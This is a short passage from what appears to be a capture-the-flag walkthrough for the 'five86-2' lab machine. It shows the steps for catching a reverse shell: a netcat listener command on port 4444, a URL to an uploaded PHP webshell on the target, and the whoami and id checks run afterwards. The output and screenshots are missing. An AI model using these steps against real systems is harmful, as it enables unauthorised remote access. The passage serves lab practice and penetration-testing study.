


3.3 Netcat
a) On your Kali Machine open a “Netcat listener”
$ nc -lnvp 4444
b) Open the “index.php” to get a webshell.
http://five86-2/wp-content/uploads/articulate_uploads/poc/index.php
c) On your Kali Machine.
Output:

d) Type the following commands.
$
whoami
$
id

Index